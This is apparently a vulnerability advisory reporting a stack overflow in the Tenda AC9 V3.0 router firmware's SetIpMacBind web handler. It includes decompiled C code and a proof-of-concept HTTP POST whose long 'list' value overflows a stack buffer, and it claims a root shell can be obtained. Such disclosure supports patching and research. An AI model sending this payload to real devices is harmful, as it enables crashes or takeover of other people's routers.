


# Tenda AC9 V3.0BR_V15.03.06.42_multi_TD01 was discovered stack overflow via parameter 'static_list' at url /goform/SetIpMacBind

## Affected Version

US_AC9V3.0BR_V15.03.06.42_multi_TD01

## Firmware Download Address

[AC9V3.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/download/detail-2908.html)

## Vulnerability Description

Tenda AC9 V3.0 BR_V15.03.06.42_multi_TD01 was discovered to contain a stack overflow via parameter 'static_list' at url /goform/SetIpMacBind.

## vulnerability Details

1. This vulnerability lies in the function 'fromSetIpMacBind'，The details are shown below:

```c
void __cdecl fromSetIpMacBind(webs_t wp, char_t *path, char_t *query)
{
  int i; // [sp+20h] [+20h]
  int ia; // [sp+20h] [+20h]
  char *list; // [sp+24h] [+24h]
  char *p; // [sp+28h] [+28h]
  int new_static_num; // [sp+2Ch] [+2Ch]
  int old_static_num; // [sp+30h] [+30h]
  char *static_num; // [sp+34h] [+34h]
  char *static_list; // [sp+38h] [+38h]
  cgi_msg errCode; // [sp+3Ch] [+3Ch]
  char ret_buf[256]; // [sp+40h] [+40h] BYREF
  char mib_buf[128]; // [sp+140h] [+140h] BYREF
  char mib_name[64]; // [sp+1C0h] [+1C0h] BYREF
  char mib_value[128]; // [sp+200h] [+200h] BYREF
  char macstr[18]; // [sp+280h] [+280h] BYREF
  char new_macstr[18]; // [sp+294h] [+294h] BYREF
  char mac_addr[32]; // [sp+2A8h] [+2A8h] BYREF
  char ip_addr[32]; // [sp+2C8h] [+2C8h] BYREF
  char dev_name[64]; // [sp+2E8h] [+2E8h] BYREF
  char param_str[256]; // [sp+328h] [+328h] BYREF

  errCode = CGI_OK;
  memset(ret_buf, 0, sizeof(ret_buf));
  memset(mib_buf, 0, sizeof(mib_buf));
  memset(mib_name, 0, sizeof(mib_name));
  memset(mib_value, 0, sizeof(mib_value));
  memset(macstr, 0, sizeof(macstr));
  memset(new_macstr, 0, sizeof(new_macstr));
  memset(mac_addr, 0, sizeof(mac_addr));
  memset(ip_addr, 0, sizeof(ip_addr));
  memset(dev_name, 0, sizeof(dev_name));
  static_num = websGetVar(wp, "bindnum", "0");
  static_list = websGetVar(wp, "list", byte_51C828);
  GetValue("dhcps.Staticnum", mib_value);
  old_static_num = atoi(mib_value);
  new_static_num = atoi(static_num);
  if ( new_static_num >= 0 && new_static_num < 33 )
  {
    list = static_list;
    for ( i = 1; list && new_static_num >= i; ++i )
    {
      p = strchr(list, 10);
      if ( p )
      {
        *p = 0;
        strcpy(mib_buf, list);
        list = p + 1;
      }
      else
      {
        strcpy(mib_buf, list);
      }
      if ( mib_buf[0] == 13 )
      {
        if ( sscanf(&mib_buf[1], "%17[0-9a-fA-F:]\r%s", mac_addr, ip_addr) != 2 )
          goto LABEL_10;
        memcpy(dev_name, byte_51C828, 1u);
      }
      else if ( sscanf(mib_buf, "%[^\r]\r%17[0-9a-fA-F:]\r%s", dev_name, mac_addr, ip_addr) != 3 )
      {
LABEL_10:
        errCode = CGI_ERROR;
        puts("get ip and mac error!");
        break;
      }
      printf("%s %d# dev_name=%s,mac_addr=%s,ip_addr=%s\n", "fromSetIpMacBind", 630, dev_name, mac_addr, ip_addr);
      sprintf(mib_name, "dhcps.Staticip%d", i);
      sprintf(mib_value, "%s;%s;0", ip_addr, mac_addr);
      SetValue(mib_name, mib_value);
      if ( dev_name[0] )
      {
        memset(mib_name, 0, sizeof(mib_name));
        memset(mib_value, 0, sizeof(mib_value));
        set_device_name(dev_name, mac_addr);
      }
    }
    if ( new_static_num + 1 == i && errCode == CGI_OK )
    {
      puts("set static num sucess!");
      SetValue("dhcps.Staticnum", static_num);
      for ( ia = new_static_num + 1; old_static_num >= ia; ++ia )
      {
        memset(mib_value, 0, sizeof(mib_value));
        sprintf(mib_name, "dhcps.Staticip%d", ia);
        GetValue(mib_name, mib_value);
        sprintf(mib_name, "dhcps.Staticip%d", ia);
        SetValue(mib_name, byte_51C828);
      }
    }
    if ( errCode == CGI_OK && CommitCfm() )
    {
      memset(param_str, 0, sizeof(param_str));
      sprintf(param_str, "op=%d,index=1", 6);
      send_msg_to_netctrl(3, param_str);
      errCode = CGI_OK;
    }
  }
  else
  {
    errCode = CGI_ERROR;
    printf("staic ip number over %d\n", 32);
  }
  sprintf(ret_buf, "{\"errCode\":%d}", errCode);
  websTransfer(wp, ret_buf);
}
```

2. in function  'fromSetIpMacBind' line 34, 'static_list' is a  user-controlled parameter("list") and is read in without length check.



Then  content of 'static_list' is copied into local variable 'mib_buf', which leads to a stack overflow vulnerability.



## POC

By sending delicately constructed data package as the poc above, we can cause a stack overflow error.

```
POST /goform/SetIpMacBind HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1054
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/ip_mac_bind.html?random=0.28649201745895103&
Cookie: password=7c90ed4e4d4bf1e300aa08103057ccbcjig1qw

bindnum=1&list=RenCvnaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaeaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaae,9c:fc:e8:1a:33:80,192.168.11.139
```

you can write exp, which can achieve a very stable effect of obtaining the root shell.

## Author

田文奇
